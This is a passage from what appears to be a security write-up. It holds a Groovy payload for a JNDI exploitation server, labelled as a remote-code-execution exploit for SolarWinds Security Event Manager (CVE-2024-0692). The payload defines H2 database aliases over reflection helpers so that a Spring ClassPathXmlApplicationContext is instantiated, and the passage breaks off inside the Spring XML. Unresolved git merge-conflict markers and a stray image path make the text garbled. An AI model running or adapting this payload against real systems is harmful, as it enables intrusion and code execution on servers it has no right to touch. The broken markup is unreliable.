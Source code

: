 [![](assets/1710212142-1189a1383db64eea3e5b9832268dc818.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304191557-92d87848-da18-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### ClassPathXmlApplicationContext

payload (Groovy)

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
import map.jndi.server.WebServer

import javax.naming.Reference
import javax.naming.StringRefAddr

// SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692)
// instantiate ClassPathXmlApplicationContext

def list = []

// drop the previous alias if exists
list << "DROP ALIAS IF EXISTS INVOKE_CONSTRUCTOR"
list << "DROP ALIAS IF EXISTS INVOKE_METHOD"
list << "DROP ALIAS IF EXISTS URI_CREATE";
list << "DROP ALIAS IF EXISTS CLASS_FOR_NAME"

// alias some external Java methods
list << "CREATE ALIAS INVOKE_CONSTRUCTOR FOR 'org.apache.commons.beanutils.ConstructorUtils.invokeConstructor(java.lang.Class, java.lang.Object)'"
list << "CREATE ALIAS INVOKE_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeMethod(java.lang.Object, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS URI_CREATE FOR 'java.net.URI.create(java.lang.String)'"
list << "CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)'"

// Spring XML content
def content = '''<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
```
